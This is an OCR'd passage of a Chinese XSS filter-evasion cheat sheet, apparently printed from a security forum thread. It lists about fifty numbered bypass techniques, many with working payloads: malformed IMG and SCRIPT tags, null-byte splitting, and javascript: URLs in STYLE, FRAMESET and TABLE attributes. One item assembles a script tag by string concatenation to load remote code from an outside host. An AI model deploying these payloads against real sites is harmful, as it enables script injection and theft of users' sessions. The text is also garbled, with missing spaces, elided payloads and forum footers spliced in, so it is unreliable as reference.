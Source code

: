 ```
(6)修正缺陷IMG标签
<IMG"""><SCRIPT>alert("XSS")</SCRIPT>">
(7)formCharCode标签(计算器)
(8)UTF-8的Unicode编码(计算器)
(9)7位的UTF-8的Unicode编码是没有分号的(计算器)
<IMGSRC=jav..省略..S')>
(10)十六进制编码也是没有分号(计算器)
(11)嵌入式标签,将Javascript分开
(12)嵌入式编码标签,将Javascript分开
<IMGSRC="javascript:alert('XSS');">
(13)嵌入式换行符
(14)嵌入式回车
(15)嵌入式多行注入JavaScript,这是XSS极端的例子
(16)解决限制字符(要求同页面)
<script>z='document.'</script><script>z=z+'write("'</script><script>z=z+'<script'</script><s
cript>z=z+'
src=ht'</script><script>z=z+'tp://ww'</script><script>z=z+'w.shell'</script><script>z=z+'.ne
t/1.'</script><script>z=z+'js></sc'</script><script>z=z+'ript>")'</script><script>eval_r(z)<
/script>
(17)空字符12-7-1T00LS-PoweredbyDiscuz!Board
https://www.a.com/viewthread.php?action=printable&tid=152672/6perl-e'print"<IMG
SRC=java\0script:alert(\"XSS\")>";'>out
(18)空字符2,空字符在国内基本没效果.因为没有地方可以利用
perl-e'print"<SCR\0IPT>alert(\"XSS\")</SCR\0IPT>";'>out
(19)Spaces和meta前的IMG标签
(20)Non-alpha-non-digitXSS
<<SCRIPT>alert("XSS");//<</SCRIPT>
(24)无结束脚本标记(仅火狐等浏览器)
(25)无结束脚本标记2
(26)半开的HTML/JavaScriptXSS
(27)双开角括号
(28)无单引号双引号分号
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
(29)换码过滤的JavaScript
\";alert('XSS');//
(30)结束Title标签
(31)InputImage
(32)BODYImage
(33)BODY标签
<BODY('XSS')>
(34)IMGDynsrc
(35)IMGLowsrc
(36)BGSOUND
(37)STYLEsheet
(38)远程样式表
(39)List-style-image(列表式)
<STYLE>li{list-style-image:url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS
(40)IMGVBscript
<IMGSRC='vbscript:msgbox("XSS")'></STYLE><UL><LI>XSS
(41)META链接url
(42)Iframe
(43)Frame
<FRAMESET><FRAMESRC="javascript:alert('XSS');"></FRAMESET>12-7-1T00LS-PoweredbyDiscuz!
Boardhttps://www.a.com/viewthread.php?action=printable&tid=152673/6
(44)Table
(45)TD
<TABLE><TDBACKGROUND="javascript:alert('XSS')">
(46)DIVbackground-image
(47)DIVbackground-image后加上额外字符(1-32&34&39&160&8192-8&13&12288&65279)
(48)DIVexpression
(49)STYLE属性分拆表达
(50)匿名STYLE(组成:开角号和一个字母开头)
(51)STYLEbackground-image
```
